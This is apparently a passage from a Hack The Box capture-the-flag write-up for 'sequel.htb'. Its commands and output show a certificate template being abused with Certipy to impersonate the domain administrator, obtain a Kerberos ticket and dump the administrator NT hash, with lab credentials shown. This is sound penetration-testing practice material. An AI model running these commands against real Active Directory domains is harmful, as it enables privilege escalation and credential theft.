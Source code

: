 this failed tho, need to go thru more to understand how i can use ryan to get admin hash....

ah-ha!
```
certipy req -u ryan.cooper@sequel.htb -p 'NuclearMosquito3' \
-ca sequel-DC-CA -template UserAuthentication \
-upn administrator@sequel.htb -dc-ip 10.10.11.202 -out admin

Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 15
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@sequel.htb'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'admin.pfx'
[*] Wrote certificate and private key to 'admin.pfx'
```
then:
```
certipy auth -pfx 'admin.pfx' -dc-ip '10.10.11.202'
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@sequel.htb'
[*] Using principal: 'administrator@sequel.htb'
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
[-] Use -debug to print a stacktrace
[-] See the wiki for more information
```

looks like i need to sync my time to our targets....
```
sudo ntpdate -u 10.10.11.202

2025-07-29 05:54:14.081965 (-0400) +28800.251691 +/- 0.010795 10.10.11.202 s1 no-leap
CLOCK: time stepped by 28800.251691
```

try once more:
BOOM!
```
certipy auth -pfx 'admin.pfx' -dc-ip '10.10.11.202'
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@sequel.htb'
[*] Using principal: 'administrator@sequel.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:a52f78e4c751e5f5e17e1e9f3e58f4ee
```
ntlm hash is after the :
`a52f78e4c751e5f5e17e1e9f3e58f4ee`
